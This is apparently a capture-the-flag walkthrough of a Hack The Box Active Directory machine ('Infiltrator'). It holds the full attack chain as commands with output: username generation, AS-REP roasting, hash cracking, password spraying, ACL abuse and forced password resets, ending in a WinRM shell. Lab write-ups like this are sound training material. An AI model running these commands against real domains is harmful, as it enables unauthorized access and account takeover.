

## 1. Recon

### 1.1. Port Scan `nmap`

```console
root@kali:~# nmap -Pn -A 10.10.11.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-18 20:33 +08
Nmap scan report for 10.10.11.31
Host is up (0.0053s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Infiltrator.htb
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-18 12:18:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-18T12:20:13+00:00; -14m32s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-18T12:20:13+00:00; -14m32s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-18T12:20:13+00:00; -14m32s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
|_ssl-date: 2024-12-18T12:20:13+00:00; -14m32s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: INFILTRATOR
|   NetBIOS_Domain_Name: INFILTRATOR
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: infiltrator.htb
|   DNS_Computer_Name: dc01.infiltrator.htb
|   DNS_Tree_Name: infiltrator.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-12-18T12:19:34+00:00
|_ssl-date: 2024-12-18T12:20:13+00:00; -14m32s from scanner time.
| ssl-cert: Subject: commonName=dc01.infiltrator.htb
| Not valid before: 2024-07-30T13:20:17
|_Not valid after:  2025-01-29T13:20:17
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-12-18T12:19:38
|_  start_date: N/A
|_clock-skew: mean: -14m31s, deviation: 0s, median: -14m32s

TRACEROUTE (using port 135/tcp)
HOP RTT     ADDRESS
1   5.23 ms 10.10.14.1
2   5.40 ms 10.10.11.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.32 seconds
```

The target machine appears to be a domain controller, let's add the hosts records to Kali:

```sh
cat << EOF >> /etc/hosts
10.10.11.31 infiltrator.htb
10.10.11.31 dc01.infiltrator.htb
EOF
```

## 2. Exploring

### 2.1. `445`

Attempting to check for low hanging fruit using `enum4linux` with empty username/password (not successful)

```console
root@kali:~# enum4linux infiltrator.htb
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Dec 22 15:38:39 2024

 =========================================( Target Information )=========================================

Target ........... infiltrator.htb
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ==========================( Enumerating Workgroup/Domain on infiltrator.htb )==========================


[E] Can't find workgroup/domain


 ==============================( Nbtstat Information for infiltrator.htb )==============================

Looking up status of 10.10.11.31
No reply from 10.10.11.31

 ==================================( Session Check on infiltrator.htb )==================================


[+] Server infiltrator.htb allows sessions using username '', password ''


 ===============================( Getting domain SID for infiltrator.htb )===============================

Domain Name: INFILTRATOR
Domain Sid: S-1-5-21-2606098828-3734741516-3625406802

[+] Host is part of a domain (not a workgroup)


 =================================( OS information on infiltrator.htb )=================================


[E] Can't get OS info with smbclient


[+] Got OS info for infiltrator.htb from srvinfo:
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED


 ======================================( Users on infiltrator.htb )======================================


[E] Couldn't find users using querydispinfo: NT_STATUS_ACCESS_DENIED


[E] Couldn't find users using enumdomusers: NT_STATUS_ACCESS_DENIED


 ================================( Share Enumeration on infiltrator.htb )================================

do_connect: Connection to infiltrator.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on infiltrator.htb


 ==========================( Password Policy Information for infiltrator.htb )==========================


[E] Unexpected error from polenum:


[+] Attaching to infiltrator.htb using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: Cannot request session (Called Name:INFILTRATOR.HTB)

[+] Trying protocol 445/SMB...

        [!] Protocol failed: SAMR SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.


[E] Failed to get password policy with rpcclient


 =====================================( Groups on infiltrator.htb )=====================================


[+] Getting builtin groups:


[+]  Getting builtin group memberships:


[+]  Getting local groups:


[+]  Getting local group memberships:


[+]  Getting domain groups:


[+]  Getting domain group memberships:


 =================( Users on infiltrator.htb via RID cycling (RIDS: 500-550,1000-1050) )=================


[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.


 ==============================( Getting printer info for infiltrator.htb )==============================

do_cmd: Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED


enum4linux complete on Sun Dec 22 15:39:01 2024
```

### 2.2. `80`


Some names are found on the site, enclosed in `<h4>` tags in the html code:


### 2.3. Extract names from site and generate possible usernames

#### 2.3.1. Parsing and extracting names

Let's parse the html for `xpath`: `//div/div/h4`

> [!Note]
>
> The `-` instructs `xmllint` to take the input from `stdin`, which is piped from the `curl` command
>
> `xmllint` would complain about parsing errors at some part of the html document, `2> /dev/null` discards the errors to have a cleaner output

```console
root@kali:~# curl -s http://infiltrator.htb | xmllint --html --xpath //div/div/h4 - 2> /dev/null
<h4>Top Notch</h4>
<h4>Robust</h4>
<h4>Reliable</h4>
<h4>Up-to-date</h4>
<h4>Initial Work</h4>
<h4>Master Planning</h4>
<h4>Smooth Execution</h4>
<h4>.01 David Anderson</h4>
<h4>.02 Olivia Martinez</h4>
<h4>.03 Kevin Turner</h4>
<h4>.04 Amanda Walker</h4>
<h4>.05 Marcus Harris</h4>
<h4>.06 Lauren Clark</h4>
<h4>.07 Ethan Rodriguez</h4>
```

Place the relevant portion into `raw.txt`:

```sh
cat << EOF > raw.txt
<h4>.01 David Anderson</h4>
<h4>.02 Olivia Martinez</h4>
<h4>.03 Kevin Turner</h4>
<h4>.04 Amanda Walker</h4>
<h4>.05 Marcus Harris</h4>
<h4>.06 Lauren Clark</h4>
<h4>.07 Ethan Rodriguez</h4>
EOF
```

#### 2.3.2. Generate possible usernames using `awk`

##### 2.3.2.1. Parse `raw.txt` to get names only and output to `names.txt`

```sh
awk -F'>|<' '{print substr($3,5)}' raw.txt > names.txt
```

<details><summary><code>awk</code> command explanation</summary>

- `-F'>|<'`: Sets the **field separator** to split each line into fields using the characters `>` OR `<` as delimiters
- `{print substr($3,5)}`: action for `awk` to perform on each line:
  - `$3`: third field of the line, e.g. `<h4>.01 David Anderson</h4>` becomes `.01 David Anderson`
  - `substr($3,5)`: extracts a substring starting at the 5th character of `$3` (i.e. removes the numeric prefix `.01 `, `.02 `, etc.), leaving just the name like `David Anderson`

</details>

##### 2.3.2.2. Generate possible usernames

```sh
awk ' 
  {
    name = $0
    split(name, parts, " ")
    first = tolower(parts[1])
    last = tolower(parts[2])
    print first "." last "@infiltrator.htb" 
    print first "_" last "@infiltrator.htb"
    print substr(first, 1, 1) "." last "@infiltrator.htb"
    print substr(first, 1, 1) "_" last "@infiltrator.htb"
  }
' names.txt > usernames.txt
```

<details><summary><code>awk</code> command explanation</summary>

The `awk` command generates four different username formats for each line in `name.txt` and outputs them to `usernames.txt`.

**Preparing names format**:

- `{...}`: the code inside the curly braces defines the actions `awk` will perform on each line of the input (`name.txt`)
  - `name = $0`: `$0` in `awk` refers to the entire record (line), this is assigned to the variable `name`
  - `split(name, parts, " ")`: divides the `name` string into parts by spaces (`" "`); the result is stored in the array `parts`
    - `parts[1]` holds the first name (e.g. `David`)
    - `parts[2]` holds the last name (e.g. `Anderson`)
  - `first = tolower(parts[1])`: converts the first name (`parts[1]`) to lowercase
  - `last = tolower(parts[2])`: converts the last name (`parts[2]`) to lowercase

**Generating Email Variations**:

| Command | Explanation |
|---|---|
|`print first "." last "@infiltrator.htb"`|firstName.lastName@ first name joined with last name by a dot (`.`) e.g. `david.anderson@infiltrator.htb`|
|`print first "_" last "@infiltrator.htb"`|first name joined with last name by an underscore (`_`) e.g. `david_anderson@infiltrator.htb`|
|`print substr(first, 1, 1) "." last "@infiltrator.htb"`|first letter of first name (`substr(first, 1, 1)`) joined with last name by a dot (`.`) e.g. `d.anderson@infiltrator.htb`|
|`print substr(first, 1, 1) "_" last "@infiltrator.htb"`|first letter of first name (`substr(first, 1, 1)`) joined with last name by an underscore (`_`) e.g. `d_anderson@infiltrator.htb`|

</details>

> [!Tip]
>
> The syntax for [`substr`](https://www.gnu.org/software/gawk/manual/html_node/String-Functions.html#index-substr_0028_0029-function) is `substr(string, start [, length ])`
> - `string`: the string object to operate on
> - `start`: the nth character to start from
> - `length` _[optional]_: the length of characters to get; gets until the end of string if not present

##### 2.3.2.3. Output:

```console
root@kali:~# cat usernames.txt
david.anderson@infiltrator.htb
david_anderson@infiltrator.htb
d.anderson@infiltrator.htb
d_anderson@infiltrator.htb
olivia.martinez@infiltrator.htb
olivia_martinez@infiltrator.htb
o.martinez@infiltrator.htb
o_martinez@infiltrator.htb
kevin.turner@infiltrator.htb
kevin_turner@infiltrator.htb
k.turner@infiltrator.htb
k_turner@infiltrator.htb
amanda.walker@infiltrator.htb
amanda_walker@infiltrator.htb
a.walker@infiltrator.htb
a_walker@infiltrator.htb
marcus.harris@infiltrator.htb
marcus_harris@infiltrator.htb
m.harris@infiltrator.htb
m_harris@infiltrator.htb
lauren.clark@infiltrator.htb
lauren_clark@infiltrator.htb
l.clark@infiltrator.htb
l_clark@infiltrator.htb
ethan.rodriguez@infiltrator.htb
ethan_rodriguez@infiltrator.htb
e.rodriguez@infiltrator.htb
e_rodriguez@infiltrator.htb
```

## 3. Credential Access

### 3.1. [AS-REP Roasting](/notes/attacking-active-directory.md#1-as-rep-roasting)

#### 3.1.1. Use kerbrute to find users with preauthentication disabled

```console
root@kali:~# pipx install kerbrute
  installed package kerbrute 0.0.2, installed using Python 3.12.8
  These apps are now globally available
    - kerbrute
⚠️  Note: '/root/.local/bin' is not on your PATH environment variable. These apps will not be globally accessible until your PATH is updated. Run `pipx ensurepath` to automatically add it, or manually
    modify your PATH in your shell's config file (e.g. ~/.bashrc).
done! ✨ 🌟 ✨

root@kali:~# /root/.local/bin/kerbrute -users usernames.txt -domain infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Valid user => d.anderson@infiltrator.htb
[*] Valid user => o.martinez@infiltrator.htb
[*] Valid user => k.turner@infiltrator.htb
[*] Valid user => a.walker@infiltrator.htb
[*] Valid user => m.harris@infiltrator.htb
[*] Valid user => l.clark@infiltrator.htb [NOT PREAUTH]
[*] Valid user => e.rodriguez@infiltrator.htb
[*] No passwords were discovered :'(
```

#### 3.1.2. Use GetNPUsers to get password hashes

`l.clark@infiltrator.htb` identified by kerbrute to not have preauthentication enabled, let's use `GetNPUsers` to get the hash

```sh
root@kali:~# impacket-GetNPUsers infiltrator.htb/l.clark -no-pass -dc-ip dc01.infiltrator.htb -outputfile GetNPUsers.out
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for l.clark
$krb5asrep$23$l.clark@INFILTRATOR.HTB:392b84344073b27971826e9c498b3743$8b5c4ee1ae459ca3198ea968551976e621b051def64daaff0547d61544297af495ad05af527bf027589c27c4d6b16aeb930e37b7dbdc1bbefa556b6ed84d1560ececcf06f81bb1224c8b41f8f6e763fe403128e0d2116a1450380b2c21fd878664b0f474e4e7b8357c077c75bfc1f5d4d04cfb620d51d3ebb5200a6a5d0c34b277f51d5da89e9b304b88ea4f4ae016435aae7e13d8ca2e04ac79b9886e9e9ec51dabfb1490e4ed337c594a6a4350b2d08df5bf496647fccf4b2dc5fee1c9f48531b590aaa71cd7978af8f9b3c698a85d716a5268cacc8f92213677bf91ef9e18331cb08b7e780c0e40bc416559b59b7f1183
```

#### 3.1.3. Use hashcat to crack the hashes

Copy the hash `$krb5asrep$23$l.clark@INFILTRATOR.HTB:......` into a file `GetNPUsers.out`

```sh
root@kali:~# hashcat GetNPUsers.out /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-13th Gen Intel(R) Core(TM) i7-13700, 1438/2940 MB (512 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$krb5asrep$23$l.clark@INFILTRATOR.HTB:f5e73aec9e3eb46c7d2e8e6b45bd2449$d5a2fee44714de3bd9053ed2d5508b2c6d87f5639e40d23f624fc1da9a2e3a45b6d404afabcf3dc27b5fb62010d93d1ecc6e108a668101b8041e4796120cdaa080a300a5ae01f6a2d8714e3588e1e94fc429431c8672f1e37c6850df83792e929b3635bd3f5c7a90e1aca1134477e1ceded7792eea172bc1843c6096c62f4636a770a73bc5bff86b4438db3473c9df28a8bd48c034f1800715c49b99185e2f37ede5a5f3a02d8e085d02a221f34466401fbc0c58cbbb0e16c5ed2a0ed28d5535af3f49736bb3525d6e8a9826a633295b5e8b88e180489cd8641d6c36b44c561db8c8386e8e99b35f88b22515b64b8cf97e25:WAT?watismypass!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$l.clark@INFILTRATOR.HTB:f5e73aec9e3eb...f97e25
Time.Started.....: Mon Dec 23 12:07:22 2024 (5 secs)
Time.Estimated...: Mon Dec 23 12:07:27 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2081.7 kH/s (0.32ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10504192/14344385 (73.23%)
Rejected.........: 0/10504192 (0.00%)
Restore.Point....: 10503168/14344385 (73.22%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: WEBSHIT -> WASSUP85

Started: Mon Dec 23 12:06:58 2024
Stopped: Mon Dec 23 12:07:29 2024
```

Password for `l.clark` found: `WAT?watismypass!`

> [!Note]
>
> Hashcat is considerably fast for matching as-rep hashes compared to other password brute force operations
>
> ```
> root@kali:~# grep -n 'WAT?watismypass!' /usr/share/wordlists/rockyou.txt
> 10504133:WAT?watismypass!
> ```
>
> The password is at line number 10 mil+ of `rockyou.txt`, and the match was found in 30 seconds

#### 3.1.4.  Attempt connection to target

##### 3.1.4.1. [evil-winrm](https://wadcoms.github.io/wadcoms/Evil-WinRM/)

```console
root@kali:~# evil-winrm -i dc01.infiltrator.htb -u infiltrator.htb/l.clark -p WAT?watismypass!

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

**Failed**: `WinRMAuthorizationError` - user likely not allowed to connect via WinRM

##### 3.1.4.2. [psexec](https://wadcoms.github.io/wadcoms/Impacket-PsExec/)

```console
root@kali:~# impacket-psexec "infiltrator.htb/l.clark:WAT?watismypass!"@dc01.infiltrator.htb cmd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on dc01.infiltrator.htb.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.
```

**Failed**: no writable shares - user likely has no permissions on the "executable" shares

##### 3.1.4.3. [atexec](https://wadcoms.github.io/wadcoms/Impacket-atexec-Creds/)

```console
root@kali:~# impacket-atexec "infiltrator.htb/l.clark:WAT?watismypass!"@dc01.infiltrator.htb cmd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[!] This will work ONLY on Windows >= Vista
[*] Creating task \ZqohwQMn
[-] rpc_s_access_denied
```

**Failed**: `rpc_s_access_denied` - user likely has no privilege

##### 3.1.4.4. [wmiexec](https://wadcoms.github.io/wadcoms/Impacket-WMIExec/)

```console
root@kali:~# impacket-wmiexec "infiltrator.htb/l.clark:WAT?watismypass!"@dc01.infiltrator.htb cmd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[-] WMI Session Error: code: 0x80041003 - WBEM_E_ACCESS_DENIED
```

**Failed**: `WBEM_E_ACCESS_DENIED` - no permissions, again

##### 3.1.4.5. [dcomexec](https://wadcoms.github.io/wadcoms/Impacket-DCOMExec/)

```console
root@kali:~# impacket-dcomexec "infiltrator.htb/l.clark:WAT?watismypass!"@dc01.infiltrator.htb cmd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[-] DCOM SessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
```

**Failed**: `E_ACCESSDENIED` - no permissions, again²

### 3.2. Password spraying

The `l.clark` account wasn't useful, let's check for password reuse on other accounts

Prepare the sAMAccountName list:

```sh
awk '
  {
    name = $0
    split(name, parts, " ")
    first = tolower(parts[1])
    last = tolower(parts[2])
    print substr(first, 1, 1) "." last
  }
' names.txt > samaccountnames.txt
```

Password spraying using `crackmapexec`

```console
root@kali:~# crackmapexec smb dc01.infiltrator.htb -u samaccountnames.txt -p 'WAT?watismypass!' -d infiltrator.htb
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\d.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\o.martinez:WAT?watismypass! STATUS_LOGON_FAILURE
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\k.turner:WAT?watismypass! STATUS_LOGON_FAILURE
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\a.walker:WAT?watismypass! STATUS_LOGON_FAILURE
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass!
```

Received `STATUS_ACCOUNT_RESTRICTION` for users `d.anderson` and `m.harris` → this can mean that the password is valid, but the accounts may not have much access


## 4. Active Directory discovery: Bloodhound

Let's figure out if there are any viable lateral movement pathways

### 4.1. Generating bloodhound packages

```console
root@kali:~# bloodhound-python -d infiltrator.htb -u d.anderson -p 'WAT?watismypass!' -ns 10.10.11.31 -c all  --dns-tcp --zip
INFO: Found AD domain: infiltrator.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 14 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.infiltrator.htb
INFO: Done in 00M 02S
INFO: Compressing output into 20241224124349_bloodhound.zip
```

### 4.2. Checking pathway to Domain Admins

Nothing useful here


### 4.3. Checking anyone with DCSync rights

Nothing useful here either


### 4.4. Checking Kerberoastable accounts

Still, nothing useful here


### 4.5. Checking access pathways of known users

`l.clark` has zero reachable high value targets


Bingo! `d.anderson` has a pathway to `DC01` with `e.rodriguez` and `m.harris` in the pathway




## 5. Lateral movement

### 5.1. Generating TGT for `d.anderson`

Attempting to get TGT with `d.anderson` account resutled in `KRB_AP_ERR_SKEW(Clock skew too great)` error:

```console
root@kali:~# impacket-getTGT infiltrator.htb/d.anderson:'WAT?watismypass!' -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Let's sync the time on Kali with the target

Install `ntpdate`: `apt -y install ntpdate`

Turns out the time on Kali was 885 seconds ahead of the target

```console
root@kali:~# ntpdate -q dc01.infiltrator.htb
2024-12-24 12:41:39.610084 (+0800) -885.953455 +/- 0.002572 dc01.infiltrator.htb 10.10.11.31 s1 no-leap
```

Disable NTP on Kali and sync the time with the target

```console
root@kali:~# timedatectl set-ntp 0

root@kali:~# ntpdate dc01.infiltrator.htb
2024-12-24 12:41:39.671106 (+0800) -885.953418 +/- 0.002733 dc01.infiltrator.htb 10.10.11.31 s1 no-leap
CLOCK: time stepped by -885.953418

root@kali:~# ntpdate -q dc01.infiltrator.htb
2024-12-24 12:41:39.736502 (+0800) -0.000016 +/- 0.002534 dc01.infiltrator.htb 10.10.11.31 s1 no-leap
```

`getTGT` works after the time sync

```console
root@kali:~# impacket-getTGT infiltrator.htb/d.anderson:'WAT?watismypass!' -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in d.anderson.ccache

root@kali:~# export KRB5CCNAME=d.anderson.ccache
```

### 5.2. Edit ACL of `MARKETING DIGITAL` to grant `Full Control` to `d.anderson`

- Utilize the `GenericAll` permissions to modify the ACL of the `MARKETING DIGITAL` OU
- This allows `d.anderson` full control on accounts in the OU, effectively bypassing any previous restrictions imposed on direct access

```console
root@kali:~# impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb/d.anderson' -k -no-pass -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20241226-141003.bak
[*] DACL modified successfully!
```

### 5.3. Change password of `e.rodriguez`

With the full control permission that `d.anderson` now has on `MARKETING DIGITAL`, change the password for `e.rodriguez` to gain access to this account

> [!Tip]
>
> bloodyAD is used to perform specific LDAP calls to a domain controller for AD privesc
> 
> It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc
>
> Install bloodyAD in Kali with `apt -y install bloodyAD`

```console
root@kali:~# bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb --dc-ip 10.10.11.31 -u d.anderson -k set password e.rodriguez Pass1234
[+] Password changed successfully!
```

### 5.4. Use `e.rodriguez` to `AddSelf` to `CHIEFS MARKETING`

#### 5.4.1. Generating TGT for e.rodriguez`

```console
root@kali:~# impacket-getTGT infiltrator.htb/e.rodriguez:Pass1234 -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in e.rodriguez.ccache

root@kali:~# export KRB5CCNAME=e.rodriguez.ccache
```

#### 5.4.2. Adding self to group

```console
root@kali:~# bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb --dc-ip 10.10.11.31 -u e.rodriguez -k add groupMember 'CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB' e.rodriguez
[+] e.rodriguez added to CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB
```

### 5.5. Change password of `m.harris`

```console
root@kali:~# bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb --dc-ip 10.10.11.31 -u e.rodriguez -k set password m.harris Pass1234
[+] Password changed successfully!
```

### 5.6. Use `m.harris` to access `DC01`

#### 5.6.1. Generating TGT for m.harris`

```console
root@kali:~# impacket-getTGT infiltrator.htb/m.harris:Pass1234 -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in m.harris.ccache

root@kali:~# export KRB5CCNAME=m.harris.ccache
```

#### 5.6.2. Use `evil-winrm` to get a shell `DC01`

The KDC for `infiltrator.htb` could not be located:

```console
root@kali:~# evil-winrm -i dc01.infiltrator.htb -r infiltrator.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Unspecified GSS failure.  Minor code may provide more information
Cannot find KDC for realm "INFILTRATOR.HTB"


Error: Exiting with code 1
```

Create `/etc/krb5.conf` to point to `dc01.infiltrator.htb` as KDC

```sh
cat << EOF > /etc/krb5.conf
[libdefaults]
    default_realm = INFILTRATOR.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true
[realms]
    INFILTRATOR.HTB = {
        kdc = dc01.infiltrator.htb
        admin_server = dc01.infiltrator.htb
    }
[domain_realm]
    .infiltrator.htb = INFILTRATOR.HTB
    infiltrator.htb = INFILTRATOR.HTB
EOF
```

tah-dah:

```console
root@kali:~# evil-winrm -i dc01.infiltrator.htb -r infiltrator.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents> whoami
infiltrator\m.harris
```

```cmd
